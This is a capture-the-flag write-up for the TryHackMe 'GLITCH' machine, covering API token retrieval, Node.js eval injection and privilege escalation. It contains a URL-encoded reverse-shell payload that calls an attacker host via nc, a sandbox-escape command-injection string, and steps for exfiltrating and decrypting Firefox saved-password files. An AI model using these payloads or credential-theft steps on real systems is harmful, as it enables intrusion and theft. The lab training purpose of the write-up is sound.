# GLITCH Writeup

**Machine Name:** GLITCH  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Category:** Web, Linux, Privilege Escalation

---

## 1. Introduction
This writeup contains the solution for the "GLITCH" machine on the TryHackMe platform. The machine covers exploiting web-based vulnerabilities (API fuzzing, Node.js RCE) and privilege escalation techniques on Linux systems (Firefox profile analysis, doas).

## 2. Reconnaissance

After identifying the target machine's IP address as `10.80.142.13` (you must use your own target machine IP for all operations, do not copy mine!), I performed a comprehensive Nmap scan to detect open ports and running services. I wanted to make sure I didn't miss any services by using aggressive mode (`-A`) and scanning all ports (`-p-`).

```bash
nmap -sV -sC -A -T5 -p- --open -Pn -v 10.80.142.13
```

As a result of the scan, I saw that only **Port 80** was open out of 65535 ports:

*   **Port**: 80/tcp
*   **Service**: HTTP (nginx 1.14.0 on Ubuntu)
*   **OS Guess**: Linux 4.X/5.X

However, the most interesting and suspicious part technically in the results was the `http-title` field:

```text
|_http-title: not allowed
```

In a standard web server installation, we usually expect to see a title like "Welcome to Nginx" or the name of the application. The "Not allowed" title clearly shows that the server responds to requests but does not want to present the content.

**Thought Process and Analysis:**
If a web server says "not allowed", this is usually more than a simple 403 Forbidden error; the server seems to be warning me that there is something *inside*. This situation led me to the hypothesis: "This is not a static page, probably an application waiting for an API endpoint or special authentication". To bypass the access barrier, I will need to go beyond standard browser requests and examine source codes and HTTP headers.

### 2.1 Directory Enumeration

I decided to perform a directory scan to bypass the "not allowed" message greeting me on the main page and to discover other content that might be hidden on the web server. In this step, I used the **Gobuster** tool and a standard wordlist, `common.txt`. My goal was to see if there were any other accessible paths on the server.

```bash
gobuster dir -u http://10.80.142.13 -w /usr/share/wordlists/dirb/common.txt -t 50
```

I obtained interesting findings as a result of the scan:

*   **/img (Status: 301):** Folder where images are located, accessible.
*   **/js (Status: 301):** Folder with JavaScript files. This might be important for source code analysis.
*   **/secret (Status: 200):** This is what we are looking for! The `200 OK` code shows that this page is directly accessible.



Finding the `/secret` directory is a critical clue to bypass the barrier on the main page. My next step will be to visit this secret page and examine what is inside.

## 3. JavaScript Analysis and Token Hunting

When I reached the `/secret` page, I immediately opened the browser's **Developer Tools** (F12) to gain full access to the page content or to understand what was happening in the background.

### Cookie Check
My first stop was the Cookies section in the **Storage** tab. I noticed that a cookie named `token` was already defined here. However, when I looked at its value, it was very clear that this was not a real authorization token; the content was usually meaningless or a default value (e.g., "value").



**Thought Process:**
"If there is a token cookie here and the server expects it, there must be a mechanism that generates or verifies the actual value of this token. This mechanism is most likely hidden inside the JavaScript codes on the client side, not on the server side."

With this logic, I decided to examine the JavaScript files by switching to the **Debugger** (or Sources) tab to find the source of the token.

### 3.1 `getAccess()` Function and Obtaining Token

During my script analysis in the Debugger tab, I found a function that immediately caught my attention with its naming: `getAccess()`.

.png) 

When I examined the code, I saw that this function sends an HTTP GET request to the `/api/access` address. This endpoint was probably distributing the authorization key I was looking for.

After understanding what the Javascript code does, I decided to perform this operation directly via the terminal, in a more controllable environment, instead of doing it from the browser.

```bash
curl -s http://10.80.142.13/api/access
```

With this command, I sent a request to the API and a valid JSON response returned from the server.

```json
{"token": "dGhpc19pc19ub3RfZm9yX3VubW9kcw=="}
```



This token I obtained (`dGhpc19pc19ub3RfZm9yX3VubW9kcw==`) looked like it was in Base64 format and would play a critical key role for me to move to the next step.

### 3.2 Token Analysis and Authentication Bypass

**Token Decoding:**
I decoded the content of the token in Base64 format in the terminal to understand it:

```bash
echo "dGhpc19pc19ub3RfZm9yX3VubW9kcw==" | base64 -d
# Output: this_is_not_for_unmods
```


The message "this_is_not_for_unmods" gave me a clear clue about the system's authorization logic: Those with the correct token would have admin privileges.

**Cookie Hijacking and Access:**
Using this valid token I got from the terminal, I manually updated the `token` cookie in the browser. I deleted the default value "value" and injected the real token value.



With this operation, I bypassed the restriction on the `/secret` page by exploiting the **Broken Access Control** vulnerability and gained access inside.

## 4. Exploitation

### 4.1 API Discovery (Endpoint Enumeration)

After obtaining an authorized session, I started digging into the API endpoints from the terminal to find the main data-providing veins of the application.

**Why `/api/items`?**
*   **Directory Structure:** The existence of the `/api/access` endpoint was a strong clue that the server gathered all dynamic functions under the `/api/` directory.
*   **Application Logic:** In web applications, endpoints like 'items', 'users', or 'config' are the most common (default) names where data is listed.
*   **Guessing and Verification:** After realizing that the Dashboard expected an empty list or content, my manual guessing attempt under the `/api/` directory led me to the `/api/items` address and a successful JSON output.

I performed the access test with the following command:

```bash
curl -s -H "Cookie: token=dGhpc19pc19ub3RfZm9yX3VubW9kcw==" http://10.80.142.13/api/items
```



The `sins`, `errors`, and `deaths` arrays in the returned JSON data showed that the application uses a **Node.js** based structure in the background and processes data dynamically.

### 4.2 Vulnerability Detection and RCE (Remote Code Execution)

The server returning the response `{"message":"there_is_a_glitch_in_the_matrix"}` to the POST requests I made to the `/api/items` endpoint confirmed that this parameter was included in a code execution process (`eval/exec`) in the background.

However, the fact that standard `require('child_process')` calls did not respond showed that the application was running in a restricted scope (sandbox). To overcome this obstacle, I bypassed the library restrictions by accessing the main module via the top-level object of Node.js (`global.process.mainModule`).

#### 4.2.2 Critical Threshold: 3-Hour Payload Struggle and Logic

During the exploitation phase, I fought with the server's code execution mechanism (RCE) for about **3 hours**. Here is the anatomy of the payload I sent and why standard commands did not work:

1.  **Why did it take 3 hours?**
    The server was running the incoming `cmd` parameter in a restricted Node.js environment (sandbox). Classic commands like `require('child_process')` gave an "undefined" error in this environment. After hours of trials, it was understood that to bypass the server's library restrictions, one must infiltrate the main module via `global`, which is the top-level object of Node.js.

2.  **URL Encoding (%20, %7C etc.):**
    Spaces (`%20`), pipe signs (`%7C`), and semicolons (`%3B`) in the command I sent from the terminal cannot be sent directly over the HTTP protocol. Since these characters would confuse the server, I converted them to **URL Encoding** format which the server would understand correctly when it "opens the envelope".

**Result:** This "key" command packaged in URL language (encoding) pierced the server's defense and dropped that expected shell connection to my terminal at the end of 3 hours.

### 4.3 Initial Access (Initial Shell)

I used two separate terminals to carry out the attack. In the first terminal, I started `netcat` to listen for the incoming connection on my attacker machine (192.168.142.43):

```bash
nc -lvnp 4444
```

In the second terminal, I sent the URL-encoded Reverse Shell payload that bypasses the restricted area on the server side and directly triggers system commands:

```bash
curl -X POST "http://10.80.142.13/api/items?cmd=global.process.mainModule.require(%27child_process%27).execSync(%27rm%20/tmp/f%3Bmkfifo%20/tmp/f%3Bcat%20/tmp/f%7C/bin/sh%20-i%202%3E%261%7Cnc%20192.168.142.43%204444%20%3E/tmp/f%27)" \
     -H "Cookie: token=dGhpc19pc19ub3RfZm9yX3VubW9kcw=="
```

Shortly after running the command, I obtained a successful callback on the `nc` screen I was listening to and logged into the system as the **user**.



## 5. Privilege Escalation

### 5.1 User Flag

My first job after accessing the system was to check the user's home directory (`/home/user`). Here I detected the `user.txt` file and successfully read the first flag.

```bash
cat /home/user/user.txt
```

### 5.2 Shell Stabilization

Since the first connection obtained was a restricted `sh` shell, I switched to a fully interactive Bash shell with the Python `pty` module for interactive use (arrow keys, past commands, etc.) and for commands like `sudo`/`doas` to work healthily.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### 5.3 System Enumeration

After having a more stable shell, I made a detailed listing to better understand the environment I was in:

```bash
ls -la
```

With this command, I examined the user's home directory and specifically scrutinized hidden files (starting with `.`).

### 5.4 Privilege Escalation: Firefox Profile Analysis

In my `ls -la` examination on the system, the existence of the `.firefox` directory apart from standard files caught my attention. In a penetration test, browser profiles are valuable like a "gold mine" because they host users' saved passwords, session cookies, and browsing history.



#### 5.4.1 Why Focus on Firefox and Specific Files?

1.  **Profile Detection:**
    Firefox creates a randomly named profile for each user. I found the active main profile with the query `ls -la .firefox`:
    
    ```bash
    cd .firefox && ls -la
    # Detected folder: b5w4643p.default-release
    ```

2.  **Treasure Files:**
    Firefox uses two critical files to store passwords:
    *   **logins.json:** Database keeping usernames and passwords in an encrypted state.
    *   **key4.db:** File containing the master key needed to decrypt these passwords.

**Strategy:** Capturing these two files allows us to read all passwords saved by the user in the browser as plain text. Usually, due to the "Password Reuse" vulnerability, a password saved in the browser might also be the user's system password or root password.

#### 5.4.2 Data Exfiltration Preparation

I entered the profile and verified the existence of the files with the following commands:

```bash
cd b5w4643p.default-release
ls -la logins.json key4.db
```



Since these files are in "binary" format, reading them via terminal with `cat` causes data loss. Therefore, I proceeded to transfer the files to the attacker machine (Local Kali) for analysis.

#### 5.4.3 Data Exfiltration and Decryption Process

Instead of copying directly from the terminal because the files are in binary format, I packaged them with `tar` and converted them to Base64 format to protect their integrity before transferring:

```bash
tar cz logins.json key4.db cert9.db | base64 -w 0
```

After copying the Base64 block I obtained to my own Kali machine and decoding it, I started the decryption process using the open-source `firefox_decrypt` tool:

```bash
python3 firefox_decrypt.py ./firefox_profile_folder/
```

**Result:** As a result of the analysis, a password belonging to the `v0id` user was captured:

*   **Password:** `love_the_void`

### 5.5 Switching to `v0id` User and Discovering `doas`

Using the captured password, I switched to the `v0id` user on the system:

```bash
su v0id
# Password: love_the_void
```

When I checked the `sudo` privileges of the `v0id` user (`sudo -l`), I saw that they did not have any privileges. However, while scanning for SUID bit files on the system, a non-standard tool caught my attention:

```bash
find / -perm -4000 2>/dev/null
# Output: /usr/local/bin/doas
```

### 5.6 Final: Root Privilege with `doas` (Privilege Escalation)

The fact that the `/usr/local/bin/doas` file on the system had the SUID bit meant that the `v0id` user could run commands with root privileges using this tool. `doas` was configured as an alternative to `sudo`.

Using the `v0id` password, I directly called the root shell (bash):

```bash
doas /bin/bash
# Password: love_the_void
```



### 5.7 Root Flag

I completed the operation by reading the root flag, which was my ultimate goal:

```bash
cat /root/root.txt
```


